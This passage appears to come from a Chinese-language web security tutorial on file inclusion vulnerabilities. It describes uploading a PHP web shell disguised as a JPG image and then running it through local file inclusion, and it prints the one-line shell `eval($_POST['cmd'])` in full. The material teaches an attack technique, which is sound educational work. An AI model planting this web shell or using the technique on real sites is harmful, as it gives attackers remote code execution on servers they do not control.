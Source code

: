 ![image-20240130134227089](08.文件包含漏洞/image-20240130134227089.png)

### 文件包含图片
寻找网站上传点，把 php 恶意代码文件改成 jpg 上传到网站上，本地包含引入恶意代码，当文件被引入后，代码就被执行。
`<?php phpinfo();eval($_POST['cmd']);?>  保存为 shell.jpg`
上传图片格式到网站，再用文件包含漏洞引入图片，成功执行代码。
![image-20240130134232986](08.文件包含漏洞/image-20240130134232986.png)